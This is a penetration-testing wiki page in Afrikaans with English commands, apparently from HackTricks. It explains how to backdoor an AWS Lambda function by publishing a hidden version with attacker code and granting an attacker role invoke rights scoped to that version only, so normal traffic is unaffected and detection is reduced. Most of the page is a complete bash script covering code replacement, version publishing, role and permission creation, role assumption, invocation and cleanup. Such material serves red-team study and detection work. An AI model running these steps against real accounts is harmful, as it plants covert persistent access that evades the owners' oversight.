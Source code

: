 # AWS - Lambda Alias-Scoped Resource Policy Backdoor (Invoke specific hidden version)

{{#include ../../../../banners/hacktricks-training.md}}

## Opsomming

Skep 'n versteekte Lambda-weergawe met aanvallerslogika en scope 'n resource-gebaseerde beleid na daardie spesifieke weergawe (of alias) deur die `--qualifier` parameter in `lambda add-permission` te gebruik. Ken slegs `lambda:InvokeFunction` toe op `arn:aws:lambda:REGION:ACCT:function:FN:VERSION` aan 'n aanvaller-prinsipaal. Normale aanroepe via die funksienaam of primêre alias bly onaangeraak, terwyl die aanvaller die backdoored weergawe-ARN direk kan aanroep.

Dit is meer stealthy as om 'n Function URL bloot te stel en verander nie die primêre verkeer-alias nie.

## Vereiste Permissies (aanvaller)

- `lambda:UpdateFunctionCode`, `lambda:UpdateFunctionConfiguration`, `lambda:PublishVersion`, `lambda:GetFunctionConfiguration`
- `lambda:AddPermission` (om 'n version-geskoorde resource-beleid by te voeg)
- `iam:CreateRole`, `iam:PutRolePolicy`, `iam:GetRole`, `sts:AssumeRole` (om 'n aanvaller-prinsipaal te simuleer)

## Aanvalstappe (CLI)

<details>
<summary>Publiseer versteekte weergawe, voeg qualifier-geskoorde permissie by, roep aan as aanvaller</summary>
```bash
# Vars
REGION=us-east-1
TARGET_FN=<target-lambda-name>

# [Optional] If you want normal traffic unaffected, ensure a customer alias (e.g., "main") stays on a clean version
# aws lambda create-alias --function-name "$TARGET_FN" --name main --function-version <clean-version> --region "$REGION"

# 1) Build a small backdoor handler and publish as a new version
cat > bdoor.py <<PY
import json, os, boto3

def lambda_handler(e, c):
ident = boto3.client(sts).get_caller_identity()
return {"ht": True, "who": ident, "env": {"fn": os.getenv(AWS_LAMBDA_FUNCTION_NAME)}}
PY
zip bdoor.zip bdoor.py
aws lambda update-function-code --function-name "$TARGET_FN" --zip-file fileb://bdoor.zip --region $REGION
aws lambda update-function-configuration --function-name "$TARGET_FN" --handler bdoor.lambda_handler --region $REGION
until [ "$(aws lambda get-function-configuration --function-name "$TARGET_FN" --region $REGION --query LastUpdateStatus --output text)" = "Successful" ]; do sleep 2; done
VER=$(aws lambda publish-version --function-name "$TARGET_FN" --region $REGION --query Version --output text)
VER_ARN=$(aws lambda get-function --function-name "$TARGET_FN:$VER" --region $REGION --query Configuration.FunctionArn --output text)
echo "Published version: $VER ($VER_ARN)"

# 2) Create an attacker principal and allow only version invocation (same-account simulation)
ATTACK_ROLE_NAME=ht-version-invoker
aws iam create-role --role-name $ATTACK_ROLE_NAME --assume-role-policy-document Version:2012-10-17 >/dev/null
cat > /tmp/invoke-policy.json <<POL
{
"Version": "2012-10-17",
"Statement": [{
"Effect": "Allow",
"Action": ["lambda:InvokeFunction"],
"Resource": ["$VER_ARN"]
}]
}
POL
aws iam put-role-policy --role-name $ATTACK_ROLE_NAME --policy-name ht-invoke-version --policy-document file:///tmp/invoke-policy.json

# Add resource-based policy scoped to the version (Qualifier)
aws lambda add-permission \
--function-name "$TARGET_FN" \
--qualifier "$VER" \
--statement-id ht-version-backdoor \
--action lambda:InvokeFunction \
--principal arn:aws:iam::$(aws sts get-caller-identity --query Account --output text):role/$ATTACK_ROLE_NAME \
--region $REGION

# 3) Assume the attacker role and invoke only the qualified version
ATTACK_ROLE_ARN=arn:aws:iam::$(aws sts get-caller-identity --query Account --output text):role/$ATTACK_ROLE_NAME
CREDS=$(aws sts assume-role --role-arn "$ATTACK_ROLE_ARN" --role-session-name htInvoke --query Credentials --output json)
export AWS_ACCESS_KEY_ID=$(echo $CREDS | jq -r .AccessKeyId)
export AWS_SECRET_ACCESS_KEY=$(echo $CREDS | jq -r .SecretAccessKey)
export AWS_SESSION_TOKEN=$(echo $CREDS | jq -r .SessionToken)
aws lambda invoke --function-name "$VER_ARN" /tmp/ver-out.json --region $REGION >/dev/null
cat /tmp/ver-out.json

# 4) Clean up backdoor (remove only the version-scoped statement). Optionally remove the role
aws lambda remove-permission --function-name "$TARGET_FN" --statement-id ht-version-backdoor --qualifier "$VER" --region $REGION || true
```
</details>

## Impak

- Verleen 'n stil agterdeur om 'n verborge weergawe van die funksie aan te roep sonder om die primêre alias te wysig of 'n Function URL bloot te stel.
- Beperk blootstelling tot slegs die gespesifiseerde weergawe/alias via die hulpbron-gebaseerde beleid `Qualifier`, wat die opsporingsoppervlak verminder terwyl dit betroubare aanroeping vir die aanvaller-prinsipaal behou.

{{#include ../../../../banners/hacktricks-training.md}}
